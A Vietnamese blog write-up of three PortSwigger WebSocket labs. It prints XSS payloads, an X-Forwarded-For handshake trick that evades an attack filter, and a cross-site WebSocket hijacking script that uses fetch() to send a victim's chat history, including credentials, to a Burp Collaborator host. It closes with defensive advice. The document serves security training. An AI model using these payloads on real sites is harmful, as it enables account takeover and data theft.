 ```yaml
---
title: "[PortSwigger Lab] - WebSockets"
description: Solution of WebSockets Lab
date: 2025-06-23 18:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, websockets]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-23-portswigger-lab-websockets/websockets.png
    alt: WebSockets
---
```


## Introduction
---
### **WebSockets**
**WebSocket** là một giao thức giao tiếp hai chiều **(bi-directional)** và toàn song công **(full duplex)**, được khởi tạo thông qua **HTTP**. **WebSocket** thường được sử dụng trong các ứng dụng web hiện đại để truyền dữ liệu theo **thời gian thực** hoặc các dữ liệu **bất đồng bộ (asynchronous)**.

| Đặc điểm              | HTTP                                    | WebSocket                                               |
| --------------------- | --------------------------------------- | ------------------------------------------------------- |
| Kiểu giao tiếp        | Yêu cầu – Phản hồi (Request – Response) | Hai chiều – có thể gửi nhận bất kỳ lúc nào              |
| Kết nối               | Thường kết thúc sau mỗi phản hồi        | Giữ kết nối lâu dài cho đến khi client hoặc server đóng |
| Gửi dữ liệu từ server | Không thể chủ động                      | Có thể chủ động gửi từ server đến client bất kỳ lúc nào |
| Ứng dụng điển hình    | Truy cập trang web, API đơn giản        | Chat, dữ liệu tài chính theo thời gian thực, game, v.v. |

## Solve WebSockets Lab
--- 
### Lab: Manipulating WebSocket messages to exploit vulnerabilities
- Gửi 1 tin nhắn bất kỳ 
- Quan sát `/resources/js/chat.js` ta thấy dữ liệu được **encode** rồi mỗi gửi đi thông qua **websocket** => Điều này chỉ hoạt động tốt trên trình duyệt

```js
function htmlEncode(str) {
    if (chatForm.getAttribute("encode")) {
        return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
            var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
            return lookup[c];
        });
    }
    return str;
}
```
- Đến **Proxy** > **WebSockets history** > chọn **request** có chứa tin nhắn đã gửi và gửi đến **Repeater**
- Gửi lại **request** với **payload**

```json
{"message":"<img src=1 onerror=alert()>"}
```
- **Reload page** để xem kết quả
- Gửi thông qua **Repeater** để bỏ qua bước **encode** đầu vào => **XSS** xảy ra

### Lab: Manipulating the WebSocket handshake to exploit vulnerabilities
- Gửi 1 tin nhắn bất kỳ 
- Quan sát `/resources/js/chat.js` ta thấy dữ liệu được **encode** rồi mỗi gửi đi thông qua **websocket** => Điều này chỉ hoạt động tốt trên trình duyệt

```js
function htmlEncode(str) {
    if (chatForm.getAttribute("encode")) {
        return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
            var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
            return lookup[c];
        });
    }
    return str;
}
```
- Đến **Proxy** > **WebSockets history** > chọn **request** có chứa tin nhắn đã gửi và gửi đến **Repeater**
- Gửi lại **request** với **payload**

Request
```json
{"message":"<img src=1 onerror=alert(1)>"}
```

Response
```json
{"error":"Attack detected: Event handler"}
```
- Không chấp nhận **event** `onerror`
- Ứng dụng sẽ ngắt kết nối sau khi `Attack detected` => Không gửi được tin nhắn
- Click **Reconnect** và thêm trường `X-Forwarded-For: 1.1.1.1` để theo túng **handshake** > **Connect**
- **Server** chấp nhận kết nối, ta sửa **payload** và gửi lại

```json
{"message":"<img src=1 oNeRrOr=alert`1`>"}
```
- **XSS** xảy ra
- Nếu sử dụng  `alert(1)` => `"error":"Attack detected: Alert"`

### Lab: Cross-site WebSocket hijacking
- Gửi 1 tin nhắn bất kỳ 
- Quan sát `/resources/js/chat.js` ta thấy ứng dụng khởi tạo **WebSocket**
- Để bắt đầu cuộc trò chuyện **client** phải gửi `"READY"`

```js
newWebSocket.onopen = function (evt) {
    writeMessage("system", "System:", "No chat history on record");
    newWebSocket.send("READY");
    res(newWebSocket);
};
```
- **Client** chờ và nhận **message** hiển thị ra

```js
newWebSocket.onmessage = function (evt) {
    var message = evt.data;
    writeMessage("abcxyz");
    ...
}
```
- Đến **exploit server** và thêm **script** vào body > **deliver to victim**

```html
<script>
let newWebSocket = new WebSocket("wss://0adc00f803ce77578009120500030005.web-security-academy.net/chat");

newWebSocket.onopen = function () {
    newWebSocket.send("READY");
};

newWebSocket.onmessage = function (evt) {
    var message = evt.data;
    fetch(`https://oe6zhtw7tilwkwhbomnhcwareik98zwo.oastify.com/${encodeURIComponent(message)}`);
};

</script>
```
- Khi **client** truy cập vào => khởi tạo kết nối **WebSocket** => lấy **message** được **server** gửi về và gửi đến **Burp Collaborator**
- Đến **Burp Collaborator** > **Poll now** để nhận request đến 
- Quan sát các **path**, bôi đen và nhìn sang tab **Inspector** => account của `carlos` 
- Login bằng account `carlos`

## Prevent
---
### Using **wss:// (TLS)**
- Mã hóa kết nối để ngăn kẻ tấn công nghe lén hoặc sửa đổi dữ liệu.

### Do not generate **WebSocket URL** from user data

```js
// ❌ Không làm:
var ws = new WebSocket("wss://" + location.host + userInput + "/chat");

// ✅ Làm đúng:
var ws = new WebSocket("wss://example.com/chat");
```

### Protect **handshake** from **CSRF**
**WebSocket** không hỗ trợ **SameSite cookie** hoặc gửi **header Origin** đầy đủ như **HTTP POST/GET**, nên cần bảo vệ thủ công.
- Kiểm tra **Origin** hoặc **Referer** trong **request handshake**
- Sử dụng **CSRF token**:
    - **Client** gửi **token** trong **message** đầu tiên (ví dụ `"INIT": "csrf_token"`).
    - **Server** kiểm tra **token** trước khi cho phép thực hiện hành động.

### Treat **WebSocket** data as untrusted data
Dữ liệu từ **WebSocket** có thể đến từ **attacker** — cần **escape**, **validate**, và **sanitize** đầy đủ.

| Kiểu tấn công         | Biện pháp                                         |
| --------------------- | ------------------------------------------------- |
| **SQL Injection**     | Dùng prepared statement, không chèn trực tiếp     |
| **XSS**               | Escape đầu ra (`htmlEncode`, `CSP`, DOMPurify...) |
| **Command injection** | Không chạy dữ liệu đầu vào trong shell            |

---
Goodluck! 🍀🍀🍀 


